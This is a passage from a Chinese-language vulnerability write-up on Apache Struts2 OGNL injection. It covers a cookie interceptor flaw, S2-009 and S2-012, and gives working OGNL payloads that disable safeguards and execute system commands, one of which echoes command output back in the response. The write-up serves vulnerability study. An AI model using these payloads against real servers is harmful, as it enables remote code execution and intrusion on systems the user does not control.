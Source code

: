 ```java
                LOG.debug("no cookie value is configured, cookie with name [" + cookieName + "] with value [" + cookieValue + "] will be injected", new String[0]);
            } else if (this.cookiesValueSet.contains("*")) {
                LOG.debug("interceptor is configured to accept any value, cookie with name [" + cookieName + "] with value [" + cookieValue + "] will be injected", new String[0]);
            }
        }
        cookiesMap.put(cookieName, cookieValue);
        stack.setValue(cookieName, cookieValue);
    }

}
```

这里也可以看出，如果配置的 `cookiesValue` 为 `*` 符号或者前端发送的cookieValue和配置中的一致，则会调用 `stack.setValue(cookieName, cookieValue);` ，这个方法底层执行了Ognl表达式，于是这里原理上是存在一个Ognl表达式注入的。但是没法打。为啥？因为： **Tomcat限制了特殊字符无法通过cookieName发送给后端，所以没法打** 。但是也不一定， **如果靶机的业务存在一个前置的URL解码，会解码CookieName，那么我们就可以使用URL编码来使用这个漏洞进行攻击了** 。

## S2-009

影响版本：Struts 2.0.0 - Struts 2.3.1.1

CVE编号：CVE-2011-3923

POC如下：

```java
// 下面的skillName代表后台String类型的参数
skillName=(#context["xwork.MethodAccessor.denyMethodExecution"]=new java.lang.Boolean(false),#_memberAccess["allowStaticMethodAccess"]=new java.lang.Boolean(true), @java.lang.Runtime@getRuntime().exec('calc'))(meh)
&
(skillName)('pinger')=true
```

这个漏洞是对S2-005的绕过，S2-005主要增加了严格的参数名验证，无法再使用UNICODE进行绕过，但是它 **仅仅是对参数名进行了验证，没有对参数值进行验证** 。经过 `param=your_ognlExpression` 后，我们的恶意Ognl表达式会进入Ognl的上下文中（且可以通过验证，因为Struts2没有验证参数值，只验证了参数名），后续我们通过 `(param)(constName)=true` 即可调用前面存入上下文中的Ognl表达式，从而RCE。如下图所示：

![image-20210816134546841](/media/image-20210816134546841.png)

## S2-012

影响版本：Struts 2.0.0 - Struts 2.3.14.2

CVE编号：CVE-2013-1965

POC如下：

```java
// 无回显：
%{(#context['xwork.MethodAccessor.denyMethodExecution']=false)(#_memberAccess['allowStaticMethodAccess']=true)(@java.lang.Runtime@getRuntime().exec('calc'))}

// 有回显：
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```
